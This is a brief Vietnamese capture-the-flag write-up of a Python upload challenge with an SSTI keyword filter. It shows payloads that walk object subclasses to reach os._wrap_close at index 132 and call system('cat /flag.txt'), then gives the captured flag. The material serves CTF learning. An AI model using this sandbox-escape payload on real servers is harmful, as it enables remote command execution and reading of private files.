




vừa hôm trước chơi giải CTF gặp bài này hôm nay lại gặp lại dạng này luôn, CHH chép đề hay giải kia chép đề ? =)) anh mình bảo CHH chép đề nhá 

có feature upload file python lên, view source thấy block toàn keyword liên quan tới ssti

payload để lấy các subclasses:
`{{ print(object.__class__.__bases__[0].__subclasses__()) }}`

giờ tìm trong các subclasses này có cái class nào có thể exec được như `system` hay không? , và ở bài này thì có cái này `os._wrap_close`.

nhưng mình cần tìm vị trí của class này để có thể gọi tới nó, đây là code để tìm vị trí, ae có thể dùng burp intruder cũng đc, bản chất nó vẫn là python exploit thôi

oke 132

payload đọc file /flag.txt từ subclasses index 132

`print(''.__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('cat /flag.txt'))` 

Flag: `EHC{oops_bad_filter_zer0day_5f41206585626e85d0647ea340acf019}`

